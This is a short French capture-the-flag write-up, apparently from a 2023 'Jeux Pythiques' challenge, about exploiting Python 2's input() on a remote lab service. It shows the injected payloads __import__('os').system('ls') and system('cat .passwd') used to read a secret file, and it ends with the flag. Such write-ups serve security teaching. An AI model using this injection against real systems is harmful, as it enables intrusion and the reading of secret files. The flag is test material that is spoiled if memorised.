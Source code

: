 # Enoncé
Vous travaillez pour la DRSD (Direction du Renseignement et de la Sécurité de la Défense) en tant qu'agent secret. Vous devez si vous l'acceptez, récupérer l'information importante contenues dans le .passwd afin de savoir ce que trame le pays ennemi. Trouvez une vulnérabilité de ce script pour récupérer le flag.

Code du programme: https://jeuxpythiques.woody.sh/fichiers/Message.py

Auteur: ethangyg

nc jeuxpythiques.woody.sh 8007

# Solution
Le but est d'injecter une commande dans la fonction input, étant du Python2 la fonction input n'est pas sécurisé.
Première tentative : __import__('os').system('ls')
Deuxième tentative : __import__('os').system('ls -la')
Dernière tentative : __import__('os').system('cat .passwd')

# Flag
JP2023{Pyth0n24r30utd4t3d}